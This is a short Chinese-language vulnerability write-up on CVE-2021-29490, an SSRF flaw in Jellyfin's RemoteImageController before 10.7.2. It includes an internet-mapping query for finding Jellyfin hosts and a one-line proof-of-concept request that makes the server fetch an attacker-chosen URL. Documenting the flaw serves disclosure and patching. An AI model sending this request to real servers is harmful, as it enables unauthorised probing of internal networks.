

# Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

<a-checkbox checked>Jellyfin < 10.7.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Jellyfin"</a-checkbox></br>

## 漏洞复现

在官方的更新文件中，查找到修改的文件



官方删除了某个方法

```go
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件 

`Jellyfin.Api/Controllers/RemoteImageController.cs`

其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞	


构造请求POC

```go
/Images/Remote?imageUrl=http://www.baidu.com
```

